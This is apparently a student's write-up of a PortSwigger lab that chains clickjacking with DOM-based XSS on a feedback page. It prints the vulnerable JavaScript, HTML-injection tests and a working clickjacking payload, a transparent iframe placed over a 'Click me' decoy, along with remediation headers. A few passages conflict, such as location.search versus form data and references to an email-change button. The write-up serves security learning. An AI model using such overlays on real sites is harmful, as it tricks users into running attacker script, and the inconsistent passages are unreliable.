




# LAB 04 -  Exploiting clickjacking vulnerability to trigger DOM-based XSS

## Lab Information

- **Category:** ClickJacking
- **Type:** Exploiting clickjacking vulnerability to trigger DOM-based XSS
- **Difficulty:** PRACTITIONER
- **Status:** ✅ Solved
- **Date:** 2026-9-28

---


---

# Table of Contents

- Executive Summary
- Lab Information
- Objective
- Vulnerability Overview
- Attack Prerequisites
- Environment & Scope
- Methodology
- Discovery Process
- Technical Analysis
- Payload Analysis
- Exploitation Flow
- Evidence
- Impact
- Root Cause
- Risk Assessment
- Remediation
- Lessons Learned
- References
- Screenshots

---

# Executive Summary

This lab demonstrates how a DOM-based Cross-Site Scripting (XSS) vulnerability can be combined with clickjacking. The feedback page retrieves the user-controlled `name` value from the submitted form data and passes it to the `innerHTML` property of the `feedbackResult` element without appropriate output encoding or sanitization.

HTML injection was confirmed by submitting an `<h1>` element, and JavaScript execution was demonstrated using an `` element with an `onerror` event handler.

The clickjacking component involves embedding the vulnerable feedback page in an iframe and manipulating the visual presentation to influence the victim's interaction. The complete attack chain must also establish how the attacker-controlled value reaches the form and how the interaction triggers the vulnerable code.

---

# Objective

This lab demonstrates how an attacker can exploit a DOM XSS vulnerability via a clickjacking attack by embedding the vulnerable page within a frame, including a `name` parameter in the URL where the value is interpreted as HTML and injecting malicious JavaScript code into it.

---

# Vulnerability Overview

A Clickjacking vulnerability occurs when an attacker overlays or disguises a legitimate web interface so that a victim believes they are interacting with the attacker's decoy interface while their interaction is actually delivered to a sensitive element within the framed target page.
A DOM-based XSS (Document Object Model-based Cross-Site Scripting) vulnerability is a type of security flaw that occurs entirely within the user's browser on the client side. It happens when JavaScript code takes data from an attacker-controllable source and passes it—unsanitized—to a dangerous function that executes code (a "sink"). The vulnerability arises when three key elements are present in the page's code: the source, the data flow and processing, and the dangerous destination or sink In this lab, the attacker-controlled input originates from location.search and is passed to .innerHTML, which writes the data into the HTML document without proper encoding.

---


# Attack Requirements

1. The target page must be frameable by the attacker.
2. The attacker must be able to control the framing page's layout and CSS.
3. The target page must contain a security-sensitive user action that can be triggered through a click.
4. The victim must be authenticated to the target application.
5. A client-side JavaScript source that can be controlled by the attacker, such as data.get ( name ).
6. An unsafe sink such as .innerHTML that inserts attacker-controlled data into the HTML document.
7. No effective output encoding or sanitization between the source and sink.

---

# Environment & Scope

| Item | Value |
|------|-------|
| Target | PortSwigger Web Security Academy lab |
| Primary Endpoint | `GET/feedback` |
| Primary HTTP Method | GET |
| Primary Action | feedback |
| CSRF Parameter | `csrf` |
| Authentication | Session cookie |
| Attack Platform | Exploit Server |
| Attack Vector | Cross-site HTML / iframe |

---

# Methodology

1. Log in to the lab using the provided credentials.
2. Navigate to the page requiring authentication: `/feedback`.
3. Capture the request for the authenticated page (the account page) using Burp Suite.
4. Review the server response to check for anti-framing protections.
5. Verify that the response does not include the `X-Frame-Options` header or the Content Security Policy (CSP) `frame-ancestors` directive.
6. Inspect the client-side JavaScript using browser Developer Tools.
7. Identify `data.get ( name )` as the attacker-controlled source.
8. Trace the data flow to the `innerHTML` sink.
9. Identify the HTML context created by the `innerHTML` sink.
10. Inject an `` element with an `onerror` event handler.
11. Verify JavaScript execution using `alert()`.
12. Embed the page within an iframe using a URL in the `src` attribute, and include the `name` parameter within that URL containing malicious JavaScript code.
    
---

# Discovery Process

### Step 1 — JavaScript Code Analysis

```javascript

document.getElementById("feedbackForm").addEventListener("submit", function(e) {
    submitFeedback(this.getAttribute("method"), this.getAttribute("action"), this.getAttribute("enctype"), this.getAttribute("personal"), new FormData(this));
    e.preventDefault();
});

function submitFeedback(method, path, encoding, personal, data) {
    var XHR = new XMLHttpRequest();
    XHR.open(method, path);
    if (personal) {
        XHR.addEventListener("load", displayFeedbackMessage(data.get('name')));
    } else {
        XHR.addEventListener("load", displayFeedbackMessage());
    }
    if (encoding === "multipart/form-data") {
        XHR.send(data)
    } else {
        var params = new URLSearchParams(data);
        XHR.setRequestHeader('Content-Type', 'application/x-www-form-urlencoded');
        XHR.send(params.toString())
    }
}

function displayFeedbackMessage(name) {
    return function() {
        var feedbackResult = document.getElementById("feedbackResult");
        if (this.status === 200) {
            feedbackResult.innerHTML = "Thank you for submitting feedback" + (name ? ", " + name : "") + "!";
            feedbackForm.reset();
        } else {
            feedbackResult.innerHTML =  "Failed to submit feedback: " + this.responseText
        }
    }
}
```

Reviewing the code above, we see that `new FormData(this)` captures the form values ​​(name, email, subject, message) and sends them to `POST /feedback/submit`. We observe that the source is `data.get('name')` and the data originates from `<input type="text" name="name">`; in other words, the user controls the input via the `name` attribute.
We also observe that the sink is `feedback Result.innerHTML`, meaning the injected values ​​are interpreted as HTML within the page. The danger arises when `feedback Result.innerHTML = name`; if the value of `name` becomes HTML code containing an event, we can execute malicious JavaScript.

### Step 2 — HTML Injection

```html
<h1> TEST <h1>
```
We enter this simple HTML code into the "Name" field; upon clicking "Submit," the word "TEST" appears in a large font. This indicates that the input in the "Name" field is being interpreted as HTML code due to the `Result.innerHTML` feedback mechanism.

### Step 3 — HTML Injection

```html

```
The input was directly inserted into the DOM through the `innerHTML` sink without appropriate encoding or sanitization. As a result, HTML markup supplied by the attacker was interpreted by the browser.
The injected  element was interpreted as HTML, and the onerror handler executed when the image failed to load.

### Step 4 — Embedding experience 

```html
<iframe src = "LAB ID.web-security-academy/feedback"> </iframe>
```
We observe that the feedback page has appeared without the warning message, indicating that the page can be embedded. 

# Source and Sink Analysis

## Source

```javascript
data.get('name')
```

The value is obtained from the `name` field in the feedback form using the `FormData` API. A user can control the value submitted through this field.

## Data Flow

The form submission handler creates a `FormData` object from the feedback form. When the `personal` attribute is truthy, the code passes `data.get('name')` to `displayFeedbackMessage()` as an argument.

## Sink

```javascript
feedbackResult.innerHTML =
    "Thank you for submitting feedback" +
    (name ? ", " + name : "") +
    "!";
```

The `innerHTML` property parses the assigned string as HTML and inserts the resulting markup into the DOM. Because the user-controlled name is incorporated into this string without appropriate sanitization or safe output handling, an attacker can inject HTML elements with event handlers that execute JavaScript.


---

# Payload Analysis

## Payload Used

```html
<style>
    iframe {
        position: relative;
        width: 700px;
        height: 1000px;
        opacity:0;
        z-index: 2;
    }

    .decoy {
        position: absolute;
        z-index: 1;
        top: 830px;
        left: 70px;
    }
</style>

<div class="decoy">Click me</div>

<iframe src="https://LAB ID.web-security-academy.net/feedback?name=&email=example@gmail.com&subject=mohamad&message=hacker">
</iframe>
```

## Why This Payload Works

```html
<style>
   iframe {
        position: relative;
        
```
Specifies the positioning method of the iframe.

```html
        width: 700px;
        height: 1000px;
```
They determine the dimensions of the frame.

```html
        opacity: 0;
```
They make the frame invisible to the user.

```html
        z-index: 2;
    }
```
They place the iframe in a layer above the decoy element.

```html
.decoy {
        position: absolute;
        z-index: 1;
        top: 830px;
        left: 70px;
    }
</style>
```
This section covers the styling of the deceptive element that will appear above the email update button; we adjust its height, left offset, position, and stacking order.
The decoy is visually presented to the victim, while the transparent iframe remains the higher interactive layer.

```html
<div class="decoy">Click me</div>

```
This part deals with creating the decoy element and the text within it.

```html
<iframe src="https://LAB ID.web-security-academy.net/feedback?name=&email=example@gmail.com&subject=mohamad&message=hacker">
</iframe>
```
This section covers the creation of a frame and the embedding of the target page within it, alongside the feedback parameters—specifically an attacker-controlled email address, a subject line, and a message body. Within the "name" field, an `` element was inserted featuring an event handler that executes upon a load failure; this handler contains JavaScript code, all of which was implemented via the form's `src` attribute.

---

# Exploitation Flow

```text

The victim's identity is verified
        ↓
The attacker's page loads an iframe
        ↓
The legitimate feedback page (`/feedback/`) is displayed
        ↓
No mechanism prevents framing
        ↓
The iframe is made transparent
        ↓
A deceptive (dummy) element is placed over the "Submit" button
        ↓
The victim clicks on the visible dummy element
        ↓
The click registers on the actual form submission button
        ↓
The actual form—containing JavaScript code—is submitted
        ↓
The code executes, and the print page appears
```

---

# Impact

The DOM XSS vulnerability was demonstrated by injecting HTML through the feedback form's `name` field and executing JavaScript in the context of the lab application.

When combined with clickjacking, this vulnerability may allow an attacker to deceive a victim into interacting with the vulnerable page and triggering the unsafe DOM operation.

The demonstrated impact is JavaScript execution in the lab application's origin. Further consequences depend on the application's functionality and security controls and should not be claimed unless separately demonstrated.

---

# Root Cause

The DOM XSS vulnerability is caused by inserting user-controlled form data into the page through `innerHTML` without appropriate sanitization or safe DOM handling.

The clickjacking weakness arises when the target page can be embedded by an attacker-controlled page because effective anti-framing protections are absent.

Together, these weaknesses can allow an attacker to manipulate the victim's interaction with the framed page and trigger the vulnerable client-side behavior, provided the attack can deliver the required input to the feedback form.

---

# Risk Assessment

| Item | Value |
|---|---|
| Severity | Context-dependent |
| CVSS Score | Not calculated |
| CWE | CWE-1021: Improper Restriction of Rendered UI Layers or Frames |
| OWASP Reference | OWASP Clickjacking Defense Cheat Sheet |
| Exploitability | Demonstrated in the lab |
| Business Impact | Potential execution of attacker-controlled JavaScript through a deceptive interaction with the vulnerable page |

---

# Remediation

- ### Content Security Policy

Implement the `frame-ancestors` directive to explicitly control which origins are allowed to embed the application.

Examples:

Content-Security-Policy: frame-ancestors 'none';

or:

Content-Security-Policy: frame-ancestors 'self';


- ### X-Frame-Options

Deploy `X-Frame-Options` as an additional anti-framing control:

X-Frame-Options: DENY

or:

X-Frame-Options: SAMEORIGIN
    
---

# Lessons Learned

- The presence of a valid CSRF token does not inherently prevent Clickjacking. When the authenticated page is successfully framed and the       victim interacts with the overlaid interface, the legitimate form submission can include the valid CSRF token.
- UI Redressing Mechanism: The attack relies on layering two elements using CSS; the target website is rendered completely invisible via the    opacity property (`opacity: 0`), while deceptive buttons are placed over it to entice the victim into clicking.
- The Importance of Element Alignment: The technical success of the attack relies on precision in using positioning properties (such as         `top`, `left`, and `z-index`) to align the hidden, sensitive buttons with the visible, decoy buttons.
- Absence of basic browser defenses: The lab demonstrates that the site is vulnerable due to the lack of security headers that prevent          framing such as the `X-Frame-Options` header or the Content Security Policy (CSP), specifically the `frame-ancestors` directive.
- Severity of Impact: The attack demonstrates the potential to force a user into taking critical, irreversible actions (schanging their email address) with a single unintentional click.
- CSRF Token Limitation: A valid CSRF token protects against certain forged requests, but it does not by itself prevent Clickjacking when an    attacker can cause the victim to interact with the legitimate framed page.
- Reliance on a client-side frame-busting script alone does not provide reliable protection against Clickjacking

---

# References

- PortSwigger Web Security Academy — Clickjacking
- PortSwigger Web Security Academy — Cross Site Scripting
- OWASP Clickjacking Defense Cheat Sheet
- Mozilla Developer Network (MDN Web Docs)
- FIRST — CVSS Specification

---

# Screenshots

## Request 


...

## Test




...

## View exploit



...

## Payload



...


## Successful 



---

# Conclusion

This lab demonstrates how clickjacking can be combined with a DOM-based XSS vulnerability.

The feedback page passes the user-controlled `name` value to `innerHTML`, allowing injected HTML to be interpreted by the browser and, under suitable conditions, execute JavaScript. The clickjacking component uses an iframe and deceptive page layout to influence the victim's interaction with the target page.

Effective remediation requires addressing both weaknesses: use safe DOM APIs such as `textContent` when rendering plain text, apply appropriate input handling, and enforce anti-framing controls through the Content Security Policy `frame-ancestors` directive and, where appropriate, `X-Frame-Options`.
